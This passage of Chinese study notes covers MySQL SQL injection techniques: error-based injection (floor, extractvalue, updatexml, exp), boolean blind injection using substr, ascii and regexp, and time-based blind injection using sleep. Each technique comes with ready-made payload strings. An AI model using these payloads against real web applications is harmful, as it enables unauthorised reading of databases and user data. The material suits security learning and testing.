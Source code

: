    - Union注入限制：很多攻击场景不是select注入，union语句被很多网页过滤

2. 报错注入：数据报错语句中包含SQL语句执行结果

   - 常见报错注入函数：floor、extractvalue、updatexml...
   - `floor` payload：

   ```mysql
   and select 1 from (select count(*), concat(version(), floor(rand(0)*2)) x from information_schema.tables group by x) a);%23
   ```

   - `extractvalue` payload（改变offset从0增加，可以读取数据库中的所有表名）：

   ```mysql
   and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1 offset 1)));%23
   ```

   - `updatexml` payload：

   ```mysql
   and 1 = (updatexml(1, concat(0x3a, (select user())), 1));%23
   ```

   - `Exp` payload：

   ```mysql
   Exp(~(select * from (select user()) a));%23
   ```

3. Boolean盲注

   - 在数据回显的不同，逐个爆破猜测。example，payload&sql:

   ```mysql
   xx' and pass > '123'%23
   ```

   ```mysql
   select *from user where user = 'xx' and pass > '123'#
   ```

   - 截取字符串的相关函数：

     - `left(Str,len)` &rarr; 从左侧截取Str的前num位
     - `substr(Str,offset,len)` &rarr; 从offset（最开始位置标记为1）开始截取Str的len长度。`ascii()` 将字符转化为ascii值。`mid(Str,offset,len)` 用法相同。
     - `regex` 正则表达式的用法。比如匹配user为root的正则表达式用法：`select user() regexp '^root'` 。可以嵌套if语句使用：

     ```mysql
     select * from users where id=1 and 1=(if((user() regexp '^r'), 1, 0));#
     ```

   - PS：mysql默认不区分大小写，可以先用binary函数处理

4. Timing 盲注

   - 页面不存在不同回显，但SQL语句被执行 &rarr; 逐个猜测 + 延时执行
   - payload：

   ```mysql
   if(ascii(substr(database(),1,1))>115,0,sleep(5))%23
   ```

